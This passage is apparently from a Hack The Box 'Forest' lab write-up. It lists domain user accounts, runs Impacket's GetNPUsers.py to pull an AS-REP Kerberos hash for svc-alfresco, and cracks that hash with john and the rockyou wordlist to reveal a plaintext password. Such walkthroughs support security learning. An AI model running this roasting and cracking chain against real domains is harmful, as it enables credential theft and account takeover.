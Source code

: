 ```bash	
HealthMailboxc0a90c9
HealthMailboxc3d7722
....snip...........
john
krbtgt
lucinda
mark
santi
sebastien
Service Accounts
SM_1b41c9286325456bb
SM_1ffab36a2f5f479cb
SM_2c8eef0a09b545acb
SM_681f53d4942840e18
SM_75a538d3025e4db9a
SM_7c96b981967141ebb
SM_9b69f1b9d2cc45549
SM_c75ee099d0a64c91b
SM_ca8c2ed5bdab4dc9b
svc-alfresco
```

Now its time to get some hashes. This is possibles because are some user with kerberos authentication disabled. See links in reference to get a better explanation.

```bash
dumbland () hgfs/hackthebox/forest :: /home/dumb/tools/impacket/examples/GetNPUsers.py  -usersfile user-list.txt  htb.local/ -dc-ip 10.10.10.161 -no-pass
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
----------------------------snip--------------------------------------------
$krb5asrep$23$svc-alfresco@HTB.LOCAL:28e829cbf7061ae679b32d5286b1e46e$15ba62f2dd3c85fda3c76fb3b90574e084d03513400849474baaf815254850bcec2615046b80344e0d8e1a96472d150c67c8aedc33ecec337a5ce7dec6878083afda63be89b86e140a896db771e91d525ba1b690fd9c23f0a5c414c0212dce8416d3f4fa4abbe875ca72ab825eaabfba5b27be23f06360c98cd22f69f6f67d2ad8fdc5ea515014321740785b520767107d7d4db7b4b77893b95ffa0bc027ec11ef016e8656ad3183c036f6c2d4086af358511d8ff220358163be7c9c5dfecfa6205773330b34ca12fa7fbe27b4bb3f1842fbd39296c840736507119881ae08b9faa1c7a35b8e
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
----------------------------snip--------------------------------------------

```



 Put this in a file and fire up **john**:

```bash
dumbland () hgfs/hackthebox/forest :: sudo john hash-svc-alfreco.txt - w=/home/dumb/pentest/SecLists/Passwords/rockyou.txt --fork=4
[sudo] password for dumb:
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB)

```
